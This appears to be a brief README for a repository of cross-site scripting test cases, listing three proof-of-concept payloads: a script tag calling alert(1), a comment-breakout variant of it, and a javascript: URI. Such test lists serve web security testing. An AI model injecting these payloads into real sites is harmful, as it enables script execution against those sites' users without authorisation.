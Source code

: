 # xss-test-cases

These are some XSS test cases I've developed.


Case 1 Payload

    <script>alert(1)</script>

Case 2 Payload

    --!><script>alert(1)</script>

Case 3 Payload

    javascript:alert(1);


